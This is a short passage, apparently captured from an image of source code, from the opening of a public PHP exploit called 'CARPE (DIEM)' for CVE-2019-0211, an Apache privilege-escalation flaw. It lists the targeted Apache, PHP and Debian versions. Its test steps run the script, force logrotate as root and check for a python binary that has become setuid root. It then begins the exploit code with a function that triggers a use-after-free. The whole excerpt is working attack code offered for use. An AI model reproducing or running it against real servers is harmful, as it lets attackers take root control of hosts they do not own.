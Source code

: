     # - Apache/2.4.25
    # - PHP 7.2.12
    # - Debian GNU/Linux 9.6
    #
    # TESTING
    #
    # $ curl http://localhost/cfreal-carpediem.php
    # $ sudo /usr/sbin/logrotate /etc/logrotate.conf --force
    # $ ls -alh /usr/bin/python3.5
    # -rwsr-sr-x 2 root root 4.6M Sep 27  2018 /usr/bin/python3.5
    #
    # There are no hardcoded addresses.
    # - Addresses read through /proc/self/mem
    # - Offsets read through ELF parsing
    #
    # As usual, there are tons of comments.
    #


    o('CARPE (DIEM) ~ CVE-2019-0211');
    o('');

    error_reporting(E_ALL);


    # Starts the exploit by triggering the UAF.
    function real()
    {
        global $y;
        $y = [new Z()];
        json_encode([0 => &$y]);
    }
